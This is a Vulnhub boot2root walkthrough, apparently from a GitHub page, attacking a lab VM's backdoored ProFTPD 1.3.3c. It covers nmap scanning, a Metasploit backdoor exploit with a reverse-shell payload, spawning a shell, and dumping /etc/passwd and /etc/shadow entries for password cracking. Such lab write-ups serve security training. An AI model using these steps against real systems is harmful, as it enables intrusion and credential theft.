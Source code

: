 |---|---|
|:---|:----|
| Category: |	Small boot2root VM |
|Platform: |	Vulnhub |
|Vulnerability: | Fpt |
|End Goal: |	Get root |
|Tool: | nmap,searchsploit, msfconsole |
|Tag:	| #ProFTPD 1.3.3c exploit |

## Pennetration Methodologie
- Scan the target
  - Find target's IP
  - Nmap scan
- Enumeration
  - FTP vuln scan
  - Searchsploit
- Exploit
  - Exploit ProFTPD 1.3.3c
  - Get root
## Walkthrough
### Scanning
- Firstly I find the target’s IP by using **netdiscover** tool, we can easily find ip of the victim machine
```
┌──(root㉿kali)-[/home/kali]
└─# netdiscover -i eth0 -r 192.168.44.0/24

Currently scanning: Finished!   |   Screen View: Unique Hosts                                                               17 Captured ARP Req/Rep packets, from 4 hosts.   Total size: 1020                                                           
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.44.2    00:50:56:f2:22:8b      6     360  VMware, Inc.                                                                    
 192.168.44.1    00:50:56:c0:00:08      1      60  VMware, Inc.                                                                    
 192.168.44.130  00:0c:29:0e:97:6e      8     480  VMware, Inc.                                                                    
 192.168.44.254  00:50:56:e3:25:b0      2     120  VMware, Inc.
```
Target: **192.168.44.130** 
- Let's continue with **Nmap** scan.
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4  192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:24 EDT
Nmap scan report for 192.168.44.130
Host is up (0.00088s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
MAC Address: 00:0C:29:0E:97:6E (VMware)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.12 seconds
```
From this we can see the following ports and services:
- 21/tcp open  ftp     ProFTPD 1.3.3c
- 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
- 80/tcp open  http    Apache httpd 2.4.18
Check http servive
![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/26e3bb4b-1690-4ca9-8e12-d8085bc0bbea)
Nothing here. Scan Web with nikto
### Enumeration
#### FTP vuln scan
Use Nmap vuln scan to find scan ftp service 
```
┌──(root㉿kali)-[/home/kali]
└─# nmap -sV -sC -Pn -T4 --script=vuln -p 21 192.168.44.130
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-15 17:35 EDT
Nmap scan report for 192.168.44.130
Host is up (0.0018s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     ProFTPD 1.3.3c
| ftp-proftpd-backdoor: 
|   This installation has been backdoored.
|   Command: id
|_  Results: uid=0(root) gid=0(root) groups=0(root),65534(nogroup)
```
From the result, there are a FTP vulnerability. we can exploited: **ftp-proftpd-backdoor**
## Exploit 
- FPT exploit
The frist I use **searchexploit** to find the way exploit
![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/08a13c0c-4031-4e9d-862d-2545d9e4d2e3)
I find the the way to exploit by using metasploit. Start **msfconsole** and set options to exploit.
```
msf6 > search ProFTPD 1.3.3c
msf6 > use 0
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show options
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set RHOSTS 192.168.44.130
RHOSTS => 192.168.44.130
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > show payloads
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set payload payload/cmd/unix/reverse
payload => cmd/unix/reverse
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > set LHOST 192.168.44.20
LHOST => 192.168.44.20
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > exploit
```
When exploit successful, you get a shell. Using command **python -c 'import pty;pty.spawn.("/bin/sh")'**
![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/b1e4821a-5a7b-4616-8b5f-188601268040)
Using command **id** to get current user'IP.
![image](https://github.com/CowStupid/Vulnhub-seri/assets/169901923/7894b801-a967-4fdb-a3a6-f14ae862c5fd)
Dump file /etc/passwd and /etc/shadow
```
echo "marlinspike:$6$wQb5nV3T$xB2WO/jOkbn4t1RUILrckw69LR/0EMtUbFFCYpM3MUHVmtyYW9.ov/aszTpWhLaC2x6Fvy5tpUUxQbUhCKbl4/:17484:0:99999:7:::" >> shadow.txt

echo "marlinspike:x:1000:1000:marlinspike,,,:/home/marlinspike:/bin/bash" >> passwd.txt

```
So we can crack it with **john the ripper**.



